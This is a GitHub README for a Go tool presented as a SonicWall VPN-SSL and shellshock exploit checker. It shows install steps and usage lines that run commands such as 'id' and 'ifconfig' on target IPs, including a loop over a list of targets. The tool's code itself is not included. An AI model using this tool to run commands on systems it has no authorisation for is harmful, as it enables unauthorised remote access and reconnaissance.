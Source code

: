 # gcs
SonicWall VPN-SSL Exploit Checker* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/gcs
```
# Basic Usage
### oneliner
```
▶ for i in $(cat list.txt) ; do echo $i | xargs ./gcs -i ; done
```
### Simple command - Default -c echo
```
▶ ./gcs -i x.x.x.x
```
### With commands
```
▶ ./gcs -i x.x.x.x -c id
▶ ./gcs -i x.x.x.x -c 'id && ifconfig'
```
# Screenshot
<p align="center"><img src="https://github.com/gustavorobertux/gcs/blob/main/gcs.png" width="90%"></p>
